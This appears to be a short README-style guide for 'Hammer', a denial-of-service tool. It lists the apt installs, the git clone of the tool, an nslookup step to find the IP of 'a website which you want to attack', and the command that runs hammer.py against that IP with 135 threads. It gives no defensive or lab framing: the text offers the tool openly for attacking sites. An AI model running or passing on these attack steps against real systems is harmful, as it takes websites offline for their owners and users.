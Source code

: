 author- p3@n@v


$ apt update<br>

$ apt upgrade<br>
$ apt install python<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/Pavithran-R/Hammer/

Hammer need the <b>Name Server</b> of a website which you want to attack...<br>
To get the Name Server...just type<br>
$ <b>nslookup example.com<b><br>
Note the IP Address of that Website<br>

then <br>
$ cd Hammer<br>
$ python hammer.py -s [ip Address] -t 135<br>
example:<br>
$ python hammer.py -s 123.45.67.89 -t 135<br>


